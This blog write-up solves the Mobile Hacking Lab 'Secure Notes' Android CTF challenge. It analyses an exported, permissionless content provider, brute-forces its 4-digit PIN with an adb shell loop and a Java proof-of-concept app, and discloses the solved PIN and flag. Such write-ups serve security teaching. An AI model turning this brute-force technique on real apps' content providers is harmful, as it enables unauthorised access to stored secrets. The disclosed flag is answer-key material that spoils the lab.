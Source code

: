 ```yaml
---
title:  "Mobile Hacking Lab Secure Notes Writeup"
date:   2024-01-22T16:32:00-0400
categories:
  - writeup
tags:
  - android
  - ctf
---
```



Hello everyone!
In this blog post , I will try to explain my solution steps for [Secure Notes](https://www.mobilehackinglab.com/course/lab-secure-notes) challenge from Mobile Hacking Lab. 

## Static Analysis
When we open the app in emulator, it opens a pin submission screen and it accept maximum 4 digit pins. We need to find correct pin. Let's open apk with jadx to understand the app.

![](/assets/images_mhl_securenotes/manifest.png)

When we examine the manifest file, we see that we have one activity(MainActivity). Also we have one exported content provider without any permission definition. It means that any application can query data from this provider☠️ Lets start our analyze with MainActivity.

### MainActivity

![](/assets/images_mhl_securenotes/provider1.png)

When we entered a pin, application calls `querySecretProvider` method with entered pin value. This method creates the selection variable by appending the given pin value after the "pin=" string. After that it send queries to provider that's defines inside itself with `content://com.mobilehackinglab.securenotes.secretprovider` uri. If returned value is not null, it prints the returned data to screen. Let's continue with the content provider to understand what the hack is going on when we make queries to that.

### SecretDataProvider

![](/assets/images_mhl_securenotes/provider2.png)

Inside th onCreate method, app reads some values from `config.properties` file that stored in assets folder. As their names suggest(encryptedSecret, salt, iv, iteratonCount), these should be values ​​related to encryption.

```properties
# content of config.properties file

encryptedSecret=bTjBHijMAVQX+CoyFbDPJXRUSHcTyzGaie3OgVqvK5w=
salt=m2UvPXkvte7fygEeMr0WUg==
iv=L15Je6YfY5owgIckR9R3DQ==
iterationCount=10000
```

![](/assets/images_mhl_securenotes/provider3.png)

When we query a data from content provider, this `query` method runs. It gets entered pin from "selection" variable that we send and sends this pin value to `decryptSecret` method.

![](/assets/images_mhl_securenotes/decrypt.png)

`decryptSecret` method uses given pin for generating a key and with that key it tries to decrypt encrypted string read from properties file. For finding a true pin, we can make bruteforce with 4 digit numbers. I tried it with adb with this script:
```bash
# https://stackoverflow.com/questions/27988069/query-android-content-provider-from-command-line-adb-shell
for i in {0001..9999}; do
    echo -n $i" ";adb shell content query --uri content://com.mobilehackinglab.securenotes.secretprovider --where pin=$i;
    
done
```

After big amount of time it gives a flag✨✨

![](/assets/images_mhl_securenotes/flag_adb.png)

```
pin: 2580
flag: CTF{D1d_y0u_gu3ss_1t!1?}
```

If you want to create an app for exploiting this vulnerability, here is my poc app code:

```java
//MainActivity
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Uri uri = Uri.parse("content://com.mobilehackinglab.securenotes.secretprovider");
        for(int i =0;i<10000;i++){
            String selection = "pin=" + String.format("%04d",i);
            Cursor cursor = getContentResolver().query(uri, null, selection, null, null);
            if(cursor != null){
                while (cursor.moveToNext()){
                    int index = Integer.valueOf(cursor.getColumnIndex("Secret"));
                    String result = cursor.getString(index);
                    Log.d("RESULT", i + " : " + result);
                }
            }
        }
    }
}
```
```xml
Add this lines to AndroidManifest.xml

<queries>
        <package android:name="com.mobilehackinglab.securenotes"></package>
</queries>
```

![](/assets/images_mhl_securenotes/app.png)

After amount of time, we see the flag🎉🎉🎉

Thanks for reading! See you in next writeups 👋🏻👋🏻
